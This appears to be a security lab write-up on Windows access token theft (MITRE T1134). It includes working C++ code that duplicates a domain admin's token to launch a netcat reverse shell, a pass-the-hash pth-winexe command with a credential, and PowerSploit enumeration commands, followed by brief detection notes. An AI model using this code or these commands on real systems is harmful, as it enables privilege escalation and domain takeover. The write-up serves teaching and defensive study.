 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Access Token Manipulation

## Context

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which created a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy. 

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed\_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

